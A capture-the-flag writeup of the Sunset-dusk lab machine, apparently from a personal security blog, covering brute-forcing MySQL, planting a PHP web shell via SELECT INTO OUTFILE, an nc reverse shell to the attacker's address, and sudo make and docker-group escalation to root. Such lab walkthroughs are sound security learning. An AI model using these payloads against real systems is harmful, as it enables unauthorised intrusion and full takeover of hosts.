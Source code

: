 ```yaml
---
layout: post
title: Sunset-dusk writeup
date: 2019-12-10 10:11
author: mzfr
---
```


## Nmap

![](images/dusk/nmap.png)

We can see lot of ports are open.

***

## MySQL

I didn't find anything good on the website so I decided to check the mysql, since I didn't had any logins for that so I started a dictionary attack on MySQL service. First I used `admin` as username but that didn't gave anything then I used `root` and that game me the password.

![](images/dusk/crack.png)

There was nothing in any of the table of any database.

So I moved on to look at the other port like `8080`.

![](images/dusk/port-8080.png)

We can see that there is a directory listing for `/var/tmp`. I tried to download those images and do some steganography but I didn't find anything. After spending some time I realise that we can try to use `mysql` to put a file on that directory.

I ran the following query on the `sql`:

```sql
select "<?php system($_GET['cmd']); ?>" into outfile '/var/tmp/rce.php';
```

![](images/dusk/query.png)

And now we can see a `rce.php` file on that directory listing on port 8080.

![](images/dusk/rce-file.png)

Now that file is there we can run command. To check if it is working I read `/home`

![](images/dusk/rce.png)

Let's run the `reverse shell` code to get a reverse shell.

```bash
➜ http -b http://192.168.56.139:8080/rce.php\?cmd\="nc -e /bin/sh 192.168.56.1 4444"
```

![](images/dusk/rev.png)

And then I got the `user.txt`

![](images/dusk/user.png)

## Privilege escalation

Since I was on the system I decided to run my enumeration script. I noticed that `docker` was on the `dusk` group so we need to find a way to become `dusk` then we can use docker to escalate to root.

![](images/dusk/groups.png)

Since I didn't find anything for `dusk` with the enumeration script so I checked the www-data's sudo right by running `sudo -l` and got some.

![](images/dusk/sudo-right.png)

Then I used [gtfo](https://github.com/mzfr/gtfo) to find those on [gtfobin](https://gtfobins.github.io/)

![](images/dusk/make-gtfo.png)

We know that we have the sudo right so we will use the last one

```bash
COMMAND='/bin/sh'
sudo -u dusk make -s --eval=$'x:\n\t-'"$COMMAND"
```

![](images/dusk/dusk.png)

Since now we are `dusk` we know we can easiy exploit the `docker` to become root. To exploit this we can use the famous [chrisfosterelli/rootplease](https://hub.docker.com/r/chrisfosterelli/rootplease/)

You can directly run it as

```bash
docker run -v /:/hostOS -i -t chrisfosterelli/rootplease
```

That didn't worked for me directly so I cloned the repository and then I ran

```bash
$ docker build -t rootplease .
$ docker run
```

![](images/dusk/docker.png)

This gives use the rootshell and now we can read the root flag.

![](images/dusk/root.png)

***

This was a really simple but amazing machine. Thanks to [whitecr0wz](https://twitter.com/@whitecr0wz) for making this machine.

***

Thanks for reading, Feedback is always appreciated.

Follow me [@0xmzfr](https://twitter.com/0xmzfr) for more “Writeups”. And if you'd like to support me considering [donating](https://mzfr.github.io/donate/) 😄
